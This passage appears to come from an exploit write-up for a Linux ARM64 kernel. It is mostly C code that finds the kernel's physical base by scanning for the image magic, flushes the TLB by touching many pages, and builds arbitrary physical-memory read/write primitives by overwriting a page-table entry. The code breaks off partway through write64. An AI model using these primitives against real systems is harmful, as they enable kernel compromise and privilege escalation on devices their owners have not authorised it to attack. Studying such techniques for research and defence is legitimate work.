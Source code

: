 ```C
	
	uint32_t magic = *(uint32_t *) (page + 0x38);
	if (magic == LINUX_ARM64_IMAGE_MAGIC) {
		phys_base = (j * (1 << (3 * 4))) | MEMSTART;
		printf("[+] kernel phys base at 0x%x\n", phys_base);
		found = 1;
		break;
	}
}
```

What happens with the search? If the TLB does not flush, and we replace their entries, the search will not work. Then, this is how I flush the TLB and replace their entries. We do this before read and write.

```C
#define TLB		0x28000UL
uint64_t *full_tlb;
/* replace tlb cache */
void replace_tlb(void) {

	/* change context */
	sync();
	
	/* access pages */
	uint32_t junk = 0;
	for (uint32_t i = 0; i < TLB; i++) {
	
		uint64_t idx = (uint64_t) (full_tlb + i * 512) & ~0x1fffff;
	
		if (idx == pmd[0] || idx == pmd[1] || idx == pmd[2] || idx == pmd[3]) {
			// printf("[*] avoiding pmd 0x%lx\n", idx);
			continue;
		}
		
		full_tlb[i * 512] = i;
		full_tlb[(i * 512) + 1] = i;
		if (full_tlb[i * 512] && full_tlb[(i * 512) + 1]) junk++;
	}
}
```

These are the functions to manage phys r/w:

```C
uint64_t read64(uint64_t addr) {

	uint32_t off = addr & 0xfff;
	
	/* replace tlb cache */
	replace_tlb();

	uint64_t pte = ((virt_to_phys(addr) >> 12) << 12) | 0xe8000000000f43;
	*(uint64_t *) (victim + offset_pgt) = pte;
	
	/* replace tlb cache */
	replace_tlb();
	
	uint64_t data = *(uint64_t *) (page + off);
	
	return data;
}

void write64(uint64_t addr, uint64_t data) {
	
```